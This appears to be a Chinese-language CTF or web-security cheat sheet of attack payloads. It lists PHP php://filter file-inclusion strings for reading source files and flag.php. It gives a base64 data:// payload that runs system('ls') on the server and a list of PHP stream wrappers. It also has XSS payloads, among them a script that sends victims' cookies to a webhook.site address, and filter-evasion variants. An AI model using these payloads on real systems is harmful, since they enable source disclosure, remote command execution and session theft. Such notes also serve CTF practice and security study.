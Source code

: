 

[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php) //官方文档

```php
php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php

```

```php
php://filter/resource=http://www.example.com        //没有进行任何过滤，直接读取
php://filter/read=string.toupper/resource=xxx.php    //对文件的内容进行大写转换后读取
php://filter/convert.base64-encode/resource=xxx.php        //对文件进行base64加密后读取
php://filter/read=string.toupper|string.rot13/resource=xxx.php    //对文件的内容进行大写转换后并使用rot13加密后读取
php://filter/write=string.rot13/resource=example.txt","Hello World    
//这会通过 rot13 过滤器筛选出字符 "Hello World",然后写入当前目录下的 example.txt
php://filter/read=string.rot13/resource=hello.php
php://filter/string.rot13/resource=imposible.php

```

*payload*
system('ls');
```shell
data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOyA/Pg==
```
##### 伪协议
>   -   [file://](https://www.php.net/manual/zh/wrappers.file.php) — 访问本地文件系统
>   -   [http://](https://www.php.net/manual/zh/wrappers.http.php) — 访问 HTTP(s) 网址
>   -   [ftp://](https://www.php.net/manual/zh/wrappers.ftp.php) — 访问 FTP(s) URLs
>   -   [php://](https://www.php.net/manual/zh/wrappers.php.php) — 访问各个输入/输出流（I/O streams）
>   -   [zlib://](https://www.php.net/manual/zh/wrappers.compression.php) — 压缩流
>   -   [data://](https://www.php.net/manual/zh/wrappers.data.php) — 数据（RFC 2397）
>   -   [glob://](https://www.php.net/manual/zh/wrappers.glob.php) — 查找匹配的文件路径模式
>   -   [phar://](https://www.php.net/manual/zh/wrappers.phar.php) — PHP 归档
>   -   [ssh2://](https://www.php.net/manual/zh/wrappers.ssh2.php) — Secure Shell 2
>   -   [rar://](https://www.php.net/manual/zh/wrappers.rar.php) — RAR
>   -   [ogg://](https://www.php.net/manual/zh/wrappers.audio.php) — 音频流
>   -   [expect://](https://www.php.net/manual/zh/wrappers.expect.php) — 处理交互式的流



# XXE

# XSS
```js
//窃取cookie
<script>document.location='https://webhook.site/(some_id)?cookie='+document.cookie;</script>
```

```js
"> <ScRipt> alert("xss")</script>
123456"> <a href=javascript:alert(1) >XSS</a>
javasc%09ript:alert(1)
```
